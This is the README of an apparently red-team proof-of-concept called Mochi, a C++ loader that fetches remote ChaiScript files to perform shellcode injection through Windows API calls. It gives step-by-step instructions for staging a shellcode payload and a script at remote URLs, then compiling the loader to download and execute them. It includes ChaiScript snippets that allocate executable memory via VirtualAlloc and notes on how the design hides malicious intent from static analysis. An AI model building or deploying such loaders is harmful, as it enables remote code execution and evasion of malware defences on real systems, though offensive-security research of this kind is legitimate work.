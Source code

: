 # Mochi | 餅

![logo](mochi-img.png)

## Overview
Mochi is a proof-of-concept C++ loader that leverages the [ChaiScript](https://chaiscript.com/) embedded scripting language to execute code. It is based on the [lcscript](https://github.com/domzigm/lcscript) project that extends ChaiScript with native Windows API call support. Mochi was built to allow remote loading of ChaiScript files that orchestrate lower level code and execute offensive actions with the Windows API.

Using a scripting language to extend malware in C++ is not a new idea. Of notable mention is the [Flame malware](https://en.wikipedia.org/wiki/Flame_(malware)), whose authors scripted high-level logic in [Lua](https://www.lua.org/). However, Mochi demonstrates that ChaiScript can be a viable alternative for implementing modularity and interacting with the Windows API from a scripting language. Additionally, ChaiScript was designed from the beginning to be used with C++. This makes integration and development straightforward for projects written in that language.

Inspiration for this capability came from the game development community and their usage of scripting languages with game engines. ChaiScript has been integrated into several game engines to support scripting functionality. For reference, see the following projects:
* https://github.com/libretro/libretro-chailove
* https://github.com/sainteos/nymph-game-engine
* https://gitlab.com/define-private-public/Masala

![screen_0](https://i.imgur.com/VhwNCdO.png)

## Features
* Code to perform tasks such as process injection can be omitted from the loader until required by an operator at runtime.
* Easily extend the Mochi loader with additional functionality using ChaiScript files. 
    * Included sample script ([inject.chai](Mochi/scripts/inject.chai)) demonstrates usage of the Windows APIs (VirtualAlloc, RtlMoveMemory) to setup shellcode injection.

## Limitations
* Code used to expose ChaiScript to the Windows API is no longer maintained by the original author.
* Usage of pointers within ChaiScript Windows API calls is complicated.
* A limited number of Windows API calls have been tested and successfully used within ChaiScript, there may be issues with implementing more complicated APIs.
* The `inject.chai` script sets up memory for process injection, but relies on a function defined within `Mochi.cpp` to perform the execution.

## Setup

### Build Environment
* A Windows 10 host was used as the environment for testing/compilation. 
* Visual Studio 2019 was used for development of this project.
* The Visual Studio package [Desktop Development with C++](https://devblogs.microsoft.com/cppblog/windows-desktop-development-with-c-in-visual-studio) was installed to support building the implant in C++.
* vcpkg was used to build and install the required ChaiScript libraries, it can be installed [here](https://github.com/microsoft/vcpkg#quick-start-windows).

### Automated Installation with vcpkg
I've used the script located [here](/helper_scripts/install_chaiscript_cpp_deps.ps1) to automate installation of **vcpkg** and the **ChaiScript** libraries on my host. Use this if you don't already have vcpkg installed.
* **NOTE:** Git is needed to fetch the vcpkg from GitHub and can be installed for Windows [here](https://gitforwindows.org).

### Manual Installation with vcpkg

To build the ChaiScript libraries, navigate to the location of your vcpkg install and execute the following command:
```
.\vcpkg.exe install chaiscript:x64-windows-static
```

## Usage

### Proof-of-Concept
The Mochi loader implements local process injection of a shellcode payload. This is intended to demonstrate the technique of using ChaiScript files that leverage the Windows API for offensive tasks. To do this, you'll need to perform the following steps:
1. Generate a shellcode payload in binary format.
* During testing, [sRDI](https://github.com/monoxgas/sRDI) was used to convert a [message box payload](https://github.com/monoxgas/sRDI/tree/master/TestDLL) DLL file to a shellcode "*.bin" file.
2. Upload the shellcode payload binary file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
3. Execute the following PowerShell helper script with your shellcode payload URL:
```
.\helper_scripts\init_chaiscript_inject_module.ps1 -payloadUrl "https://example.com/shellcode.bin"
```
4. At this point, the `inject.chai` file at the `Mochi\scripts\` path will be populated with your shellcode payload URL and be ready to execute.
5. Upload the `inject.chai` file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
6. Execute the following PowerShell helper script with your ChaiScript file URL:
```
.\helper_scripts\init_chaiscript_inject_module.ps1 -scriptUrl "https://example.com/inject.chai"
```
7. At this point, the `Mochi.cpp` file at the `Mochi\` path will be populated with your ChaiScript file URL and be ready for compilation.
8. Compile Mochi in the Visual Studio project and execute binary to validate successful initialization.

### Writing Scripts
To demonstrate how scripts can be written with ChaiScript to call the Windows API, see the following steps to call VirtualAlloc from kernel32.dll inside a ChaiScript file:
1. Import the library:
```
var libKernel32 = LoadLibrary("kernel32.dll");
```
2. Initialize the desired function:
```
var allocMem = funCall();
allocMem.init(libKernel32, "VirtualAlloc", 2);
```
3. Set up the required arguments:
```
var payload = "\xde\xad\xbe\xef";
var size = payload.size();
var allocType = 0x00001000;
var memProtect = 0x40;

allocMem.argUInt64(0);
allocMem.argUInt64(size);
allocMem.argUInt64(allocType);
allocMem.argUInt64(memProtect);
```
4. Call the function and assign the return value to a variable:
```
var allocAddr = allocMem.evalUInt64();
```

## OPSEC Considerations
Due to the PoC nature of this project, it was not built with OPSEC in mind. However, I will outline some possible features that could be present in a production deployment of this kind of project as well as OPSEC caveats:
* Feature: Encryption/decryption of ChaiScript files.
* Feature: Obfuscation/deobfuscation of ChaiScript files.
* Feature: Addition of ChaiScript modules that implement more modern methods of shellcode injection.
* Feature: Built-in string obfuscation in Mochi.
* Caveat: Mochi obscures the malicious intent of the binary during static analysis by omitting offensive functionality until execution of ChaiScript files during launch. It will ***NOT*** change anything from an evasion standpoint when it is observed during dynamic analysis. Additional obfuscation and evasion would need to be implemented in the ChaiScript files themselves if the intent is to mislead dynamic analysis tooling.

## Credits
* Dominik for the Windows API call support: https://github.com/domzigm/lcscript
* ondradus for the PoC HTTP request code: https://github.com/ondradus/WinINet---Simple-GET-POST-request
